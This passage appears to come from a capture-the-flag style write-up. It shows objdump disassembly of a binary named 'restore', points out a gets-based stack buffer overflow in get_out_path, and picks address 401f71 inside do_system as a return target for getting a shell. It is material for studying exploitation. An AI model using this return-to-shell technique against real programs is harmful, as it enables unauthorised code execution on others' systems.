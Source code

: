 Let us used objdump to see what we can do and to which address get back in the
program:

    :::text
    objdump -d ./restore
    [...]
    0000000000400fe1 <get_out_path>:
      400fe1:	55                   	push   %rbp
      400fe2:	48 89 e5             	mov    %rsp,%rbp
      400fe5:	48 83 ec 40          	sub    $0x40,%rsp
      400fe9:	bf 77 2b 49 00       	mov    $0x492b77,%edi
      400fee:	b8 00 00 00 00       	mov    $0x0,%eax
      400ff3:	e8 38 11 00 00       	callq  402130 <_IO_printf>
      400ff8:	48 8d 45 c0          	lea    -0x40(%rbp),%rax
      400ffc:	48 89 c7             	mov    %rax,%rdi
      400fff:	e8 2c 15 00 00       	callq  402530 <_IO_gets>
      401004:	48 8d 45 c0          	lea    -0x40(%rbp),%rax
      401008:	48 89 c6             	mov    %rax,%rsi
      40100b:	bf 94 2b 49 00       	mov    $0x492b94,%edi
      401010:	b8 00 00 00 00       	mov    $0x0,%eax
      401015:	e8 16 11 00 00       	callq  402130 <_IO_printf>
      40101a:	48 8d 45 c0          	lea    -0x40(%rbp),%rax
      40101e:	c9                   	leaveq
      40101f:	c3                   	retq

It looks like the address `401f71` would give us a shell if we return there with
the buffer overflow.

    :::text
    objdump -d ./restore
    [...]
      401f15:	eb 93                	jmp    401eaa <do_system+0x29a>
      401f17:	31 d2                	xor    %edx,%edx
      401f19:	be 00 f5 6b 00       	mov    $0x6bf500,%esi
      401f1e:	bf 02 00 00 00       	mov    $0x2,%edi
      401f23:	48 c7 44 24 30 25 2d 	movq   $0x492d25,0x30(%rsp)
      401f2a:	49 00
      401f2c:	48 c7 44 24 38 1d 2d 	movq   $0x492d1d,0x38(%rsp)
      401f33:	49 00
      401f35:	48 89 6c 24 40       	mov    %rbp,0x40(%rsp)
      401f3a:	48 c7 44 24 48 00 00 	movq   $0x0,0x48(%rsp)
      401f41:	00 00
      401f43:	e8 b8 e2 01 00       	callq  420200 <__sigaction>
      401f48:	31 d2                	xor    %edx,%edx
      401f4a:	be 60 f4 6b 00       	mov    $0x6bf460,%esi
      401f4f:	bf 03 00 00 00       	mov    $0x3,%edi
      401f54:	e8 a7 e2 01 00       	callq  420200 <__sigaction>
      401f59:	48 8d 74 24 50       	lea    0x50(%rsp),%rsi
      401f5e:	31 d2                	xor    %edx,%edx
      401f60:	bf 02 00 00 00       	mov    $0x2,%edi
      401f65:	e8 b6 e2 01 00       	callq  420220 <__sigprocmask>
      401f6a:	48 8b 15 ff d7 2b 00 	mov    0x2bd7ff(%rip),%rdx        # 6bf770 <__environ>
      401f71:	48 8d 74 24 30       	lea    0x30(%rsp),%rsi
      401f76:	bf 20 2d 49 00       	mov    $0x492d20,%edi
      401f7b:	c7 05 bb d4 2b 00 00 	movl   $0x0,0x2bd4bb(%rip)        # 6bf440 <lock>
      401f82:	00 00 00
      401f85:	c7 05 c1 d4 2b 00 00 	movl   $0x0,0x2bd4c1(%rip)        # 6bf450 <sa_refcntr>
      401f8c:	00 00 00
      401f8f:	e8 9c aa 01 00       	callq  41ca30 <__execve>
      401f94:	bf 7f 00 00 00       	mov    $0x7f,%edi
      401f99:	e8 32 aa 01 00       	callq  41c9d0 <_exit>
      401f9e:	48 c7 c2 c0 ff ff ff 	mov    $0xffffffffffffffc0,%rdx
      401fa5:	f7 d8                	neg    %eax
